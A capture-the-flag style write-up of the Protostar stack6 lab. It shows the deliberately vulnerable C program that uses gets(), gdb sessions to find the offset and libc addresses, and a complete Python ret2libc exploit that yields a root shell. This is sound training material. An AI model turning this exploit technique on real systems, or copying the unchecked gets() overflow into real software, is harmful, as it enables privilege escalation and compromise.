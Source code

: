 ```yaml
---
layout: post
title: "Protostar stack06 writeup"
tags: [protostar]
comments: false
---
```


We are given a source code for this challenge.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

in the description of this challenge, it recommends to use ret2libc. 
Why? because of these lines of codes, 

```
  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }
```
Because of these lines of codes, if you put any executable codes before the return address, the program will just exit out.
So that's why you need to use ret2libc

in order to use ret2libc in x86, the exploit should follow the format below(it does not always work)

```
offset+system address + exit address + /bin/bash
```

Let's get the offset first for buffer[64]

```
(gdb) disas getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>: push   %ebp
0x08048485 <getpath+1>: mov    %esp,%ebp
0x08048487 <getpath+3>: sub    $0x68,%esp
0x0804848a <getpath+6>: mov    $0x80485d0,%eax
0x0804848f <getpath+11>:        mov    %eax,(%esp)
0x08048492 <getpath+14>:        call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:        mov    0x8049720,%eax
0x0804849c <getpath+24>:        mov    %eax,(%esp)
0x0804849f <getpath+27>:        call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:        lea    -0x4c(%ebp),%eax
0x080484a7 <getpath+35>:        mov    %eax,(%esp)
0x080484aa <getpath+38>:        call   0x8048380 <gets@plt>
0x080484af <getpath+43>:        mov    0x4(%ebp),%eax
---Type <return> to continue, or q <return> to quit---
0x080484f9 <getpath+117>:       ret    
End of assembler dump.
(gdb) b *getpath+43
Breakpoint 2 at 0x80484af: file stack6/stack6.c, line 15.
(gdb) r
Starting program: /opt/protostar/bin/stack6 
input path please: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080484b2 in getpath () at stack6/stack6.c:15
15      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) x/10x $esp
0xbffff740:     0xbffff75c      0x00000000      0xb7fe1b28      0x00000001
0xbffff750:     0x00000000      0x00000001      0xb7fff8f8      0x41414141
0xbffff760:     0x41414141      0x41414141
(gdb) info reg eax
eax            0x8048505        134513925
(gdb) p $ebp
$1 = (void *) 0xbffff7a8
```
(I have cutted out some lines that were not needed)

in order to get the offset you can follow the following

```
ebp-start of buf[64]+4
```

Still the above formula is not completely true but logically it works.

so it will be 
```
>>> 0xbffff7a8-0xbffff75c
76L
```

and 76+4 is 80 so the offset is 80

Now we need the address for system() and exit()

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

Lastely, the address of /bin/sh where it will be located under /lib/libc.so.6 

```
user@protostar:/opt/protostar/bin$ strings -t d /lib/libc.so.6 | grep /bin/sh
1176511 /bin/sh
```

Now we can write an exploit


exploit.py
```
import struct

def go():
        base = "A"*80
        system_loc = 0xb7ecffb0
        libc_start = 0xb7e97000
        strings_offset = 1176511
        libc = libc_start+strings_offset
        exit_loc = 0xb7ec60c0
        payload = base
        payload += struct.pack("I", system_loc)
        payload += struct.pack("I", exit_loc)
        payload += struct.pack("I", libc)
        print payload

go()

```

Then run it

```
user@protostar:/opt/protostar/bin$ (python /tmp/exploit.py;cat)  | /opt/protostar/bin/stack6 
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAAAAAAA�����`췿c��
whoami
root
```

